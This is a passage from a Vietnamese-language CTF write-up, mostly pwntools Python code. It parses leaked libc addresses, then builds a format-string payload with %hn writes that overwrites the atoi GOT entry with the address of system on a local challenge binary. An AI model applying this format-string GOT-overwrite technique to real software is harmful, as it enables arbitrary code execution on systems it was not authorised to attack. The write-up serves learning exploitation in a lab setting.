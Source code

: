 ```python

puts_addr_str = output.split(b'.')[0].ljust(8, b'\x00')
atoi_addr_str = output.split(b".")[1].ljust(8, b'\x00')
strcspn_addr_str = output.split(b".")[2].ljust(8, b'\x00')

puts_addr = int.from_bytes(puts_addr_str, "little") 
atoi_addr = int.from_bytes(atoi_addr_str, "little") 
strcspn_addr = int.from_bytes(strcspn_addr_str, "little") 

log.info(f"puts() runtime address: {hex(puts_addr)}\n")
log.info(f"atoi() runtime address: {hex(atoi_addr)}\n")
log.info(f"strcspn() runtime address: {hex(strcspn_addr)}\n")

r.interactive()

```


Oke thì mình vẫn chưa solve được trên remote do mình vẫn chưa xác định được libc mà remote sử dụng, bài này có cho mình 1 file docker tuy nhiên mình là không biết build thế nào nên là, đợi mình học tí docker rồi quay lại đây :(. trước mắt thì mình cứ solve trên local trước đã.

### overwrite atoi_got => system for the next call main

```python
from pwn import *

binary = ELF("chall")
r = process("./chall")
gdb.attach(r, api = True)

atoi_got = binary.got['atoi']

log.info(f"atoi() GOT address: {hex(atoi_got)}") 


system_addr = 0x7fe0e8abc570 #demo

system_addr_high = (system_addr >> 32) & 0xFFFF
system_addr_medium = (system_addr >> 16) & 0xFFFF
system_addr_low = system_addr & 0xFFFF

print(int(system_addr_high))
print(int(system_addr_medium))
print(int(system_addr_low))


payload1 = b"11111111" + p64(atoi_got) + p64(atoi_got + 2) + p64(atoi_got + 4)

r.sendlineafter(b"A: ",payload1)

#payload2 = b"1_______%1p%12$n%2p%11$n"
payload2 = b"1_______%" + str(int(system_addr_high) - 46).encode("ascii") + b"p%13$hn%" 
payload2 += str(int(system_addr_low) - int(system_addr_high)).encode("ascii") + b"p%11$hn%"
payload2 += str(int(system_addr_medium) - int(system_addr_low)).encode("ascii") + b"p%12$hn--" 

r.sendlineafter(b"B: ",payload2)

r.interactive()


```
